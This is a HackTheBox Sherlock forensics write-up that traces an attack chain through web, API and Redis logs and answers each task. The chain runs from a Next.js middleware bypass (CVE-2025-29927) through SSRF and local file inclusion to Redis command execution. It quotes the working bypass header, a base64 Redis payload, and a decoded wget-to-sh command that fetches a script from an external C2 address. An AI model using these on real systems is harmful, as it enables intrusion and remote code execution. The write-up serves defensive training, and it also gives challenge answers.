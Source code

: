 # [HackTheBox Sherlocks - NeuroSync-D](https://app.hackthebox.com/sherlocks/NeuroSync-D)
![88c28e4ff83a53a51595847681cbfab9.png](/resources/88c28e4ff83a53a51595847681cbfab9.png)
**Scenario:**
NeuroSync™ is a leading suite of products focusing on developing cutting edge medical BCI devices, designed by the Korosaki Coorporaton. Recently, an APT group targeted them and was able to infiltrate their infrastructure and is now moving laterally to compromise more systems. It appears that they have even managed to hijack a large number of online devices by exploiting an N-day vulnerability. Your task is to find out how they were able to compromise the infrastructure and understand how to secure it.

* * *
![a0cde20a073d5ec4a92ea8306e851214.png](/resources/a0cde20a073d5ec4a92ea8306e851214.png)

On this sherlock, we will have to dig into how the Next.js middleware bypass could be exploited and could be chained for SSRF, Local File Inclusion and command execution on Redis! 

we will have 5 log files to investigate from
1. `access.log`: This is typically a web server log which records every HTTP/S request made to the system.
2. `bci-device.log`: This is likely a custom log related to a **BCI** (Brain-Computer Interface) or a similarly named device/system. It logs interactions between the software and the physical or virtual device.
3. `data-api.log`: Log file from a backend API that handles data requests.
4. `interface.log`: This tracks what’s happening on the user interface (GUI or CLI). It logs how users interact with the system or app front-end.
5. `redis.log`: Logs from Redis, an in-memory database often used for caching, session storage, or real-time data.

>Task 1: What version of Next.js is the application using?

![ade2336486fb2cece942c8e6419515fd.png](/resources/ade2336486fb2cece942c8e6419515fd.png)

Since Next.js is React-based full-stack framework so we could inspect the `interface.log` to find out the version and also the local port that Next.js-based application was running on the server as shown in the image above.

```
15.1.0
```

>Task 2: What local port is the Next.js-based application running on?
```
3000
```

>Task 3: A critical Next.js vulnerability was released in March 2025, and this version appears to be affected. What is the CVE identifier for this vulnerability?

![c28e0a8bb94a5d569e8131cc270e10eb.png](/resources/c28e0a8bb94a5d569e8131cc270e10eb.png)

In March 2025, the new Next.js middleware bypass vulnerability was disclosed with **9.1 CVSS** score which threat actor/attack can send the `x-middleware-subrequest` header that meant to be used internally with a specific value to **trick the application into treating them as internal subrequests** which effectively bypass middleware authorization and access the endpoint/resources that are not intended to be accessed without proper authorization.  

![b16cd9bed4c7da3d6f3d5b6274acc801.png](/resources/b16cd9bed4c7da3d6f3d5b6274acc801.png)

An article published on [Project Discovery](https://projectdiscovery.io/blog/nextjs-middleware-authorization-bypass) also provides different values that could be used with `x-middleware-subrequest` header on different version of vulnerable Next.js and also provides Nuclei template to discover this vulnerability.

![435ca2036c9e979fd31214f254a1f89b.png](/resources/435ca2036c9e979fd31214f254a1f89b.png)

The article also explained how this template works which will help us on this sherlock as well! 

```
CVE-2025-29927
```

>Task 4: The attacker tried to enumerate some static files that are typically available in the Next.js framework, most likely to retrieve its version. What is the first file he could get?

![0196e129488dfc2a15e293bd767e363e.png](/resources/0196e129488dfc2a15e293bd767e363e.png)

Lets check out the `access.log` file which we can see that there is only a single IP address that interacted with the Next.js application.

![a003ff40df544beda7fe95b4c093bd80.png](/resources/a003ff40df544beda7fe95b4c093bd80.png)

Then we can read the content of the log file which we can see that the first HTTP response beside `/` happened at 11:37:44.

```
main-app.js
```

>Task 5: Then the attacker appears to have found an endpoint that is potentially affected by the previously identified vulnerability. What is that endpoint?

![52b6df7a7764762f1d9e4af57084d7db.png](/resources/52b6df7a7764762f1d9e4af57084d7db.png)

We can see that after the attacker discovered main page of this Next.js application, an api endpoint was requested constantly by the attacker and the first 5 requests are resulted in Unauthorized response.

```
/api/bci/analytics
```

>Task 6: How many requests to this endpoint have resulted in an "Unauthorized" response?

![2ff32fe9e1570a4940e1262c1038b803.png](/resources/2ff32fe9e1570a4940e1262c1038b803.png)

We know that the first 5 request to this api endpoint resulted in Unauthorized response but is there more?, the result from `grep 401 access.log` command shows that there are no more than this.

```
5
```

>Task 7: When is a successful response received from the vulnerable endpoint, meaning that the middleware has been bypassed?

![89447a341e7c1d699735e7065a4b9a47.png](/resources/89447a341e7c1d699735e7065a4b9a47.png)

Then after those 5 unauthorized access, HTTP 200 status was seen from the 6th request and the rest and it indicates that the middleware authorization has been bypassed according to Nuclei template provides by [Project Discovery](https://projectdiscovery.io/blog/nextjs-middleware-authorization-bypass).

```
2025-04-01 11:38:05
```

>Task 8: Given the previous failed requests, what will most likely be the final value for the vulnerable header used to exploit the vulnerability and bypass the middleware?

![8fee94ba380637d33571ea851dc3ceae.png](/resources/8fee94ba380637d33571ea851dc3ceae.png)

Since the Next.js running on this application is 15.1 which mean the value of `x-middleware-subrequest` header has to be `middleware:middleware:middleware:middleware:middleware` to actually get to trigger this vulnerability 

and from `interface.log`, we can see that there are 4 attempts trying to get this vulnerability to work which was resulting to successfully exploited this vulnerability at the end.

```
x-middleware-subrequest: middleware:middleware:middleware:middleware:middleware
```

>Task 9: The attacker chained the vulnerability with an SSRF attack, which allowed them to perform an internal port scan and discover an internal API. On which port is the API accessible?

![1b09ac335741eb728aaeee9d8f8aacb9.png](/resources/1b09ac335741eb728aaeee9d8f8aacb9.png)

We can inspect the `data-api.log` file which we can see that the attacker used curl to trigger SSRF vulnerability and discovered another internal API on port 4000 which attacker then proceed to find other endpoint on this API.

```
4000
```

>Task 10: After the port scan, the attacker starts a brute-force attack to find some vulnerable endpoints in the previously identified API. Which vulnerable endpoint was found?

![f7042475e8f34040c76a5a282b19ce86.png](/resources/f7042475e8f34040c76a5a282b19ce86.png)

We could keep scrolling until we finally see the payload that resemble Local File Inclusion vulnerability exploitation payload from `/logs` endpoint which attacker found that he could leverage `logFile` variable on this endpoint to list file from the server.

```
/logs
```

>Task 11: When the vulnerable endpoint found was used maliciously for the first time?

![f7042475e8f34040c76a5a282b19ce86.png](/resources/f7042475e8f34040c76a5a282b19ce86.png)

We can see that the attacker started with `/etc/passwd` first then went to `/proc/self/environ` later.

```
2025-04-01 11:39:01
```

>Task 12: What is the attack name the endpoint is vulnerable to?
```
Local File Inclusion
```

>Task 13: What is the name of the file that was targeted the last time the vulnerable endpoint was exploited?

![b796692387a8c743b2a92719f7da58d6.png](/resources/b796692387a8c743b2a92719f7da58d6.png)

Lastly the attacker then used LFI to get secret key file from tmp directory before went to access Redis with the key obtained.

```
secret.key
```

>Task 14: Finally, the attacker uses the sensitive information obtained earlier to create a special command that allows them to perform Redis injection and gain RCE on the system. What is the command string?

![79efce5295123a9c70b884785a597551.png](/resources/79efce5295123a9c70b884785a597551.png)

From redis log, we can see that the attacker executed base64 command after he successfully compromised secret key to access Redis.

```
OS_EXEC|d2dldCBodHRwOi8vMTg1LjIwMi4yLjE0Ny9oNFBsbjQvcnVuLnNoIC1PLSB8IHNo|f1f0c1feadb5abc79e700cac7ac63cccf91e818ecf693ad7073e3a448fa13bbb
```

>Task 15: Once decoded, what is the command?

![04e2d568d2a8e4db3133366bbbec8cbb.png](/resources/04e2d568d2a8e4db3133366bbbec8cbb.png)

We can copy the base64 to decode it directly with CyberChef which we can see that the attacker trying to fetch the bash script from C2 and execute it.

![7c3c171fd417253729cad642ed03a045.png](/resources/7c3c171fd417253729cad642ed03a045.png)

We could also find the same command from `bci-device.log` which gave us an extra context that this command did not work due to the missing `wget` binary on the server.

```
wget http://185.202.2.147/h4Pln4/run.sh -O- | sh
```

https://labs.hackthebox.com/achievement/sherlock/1438364/879

And now we are done!
* * *
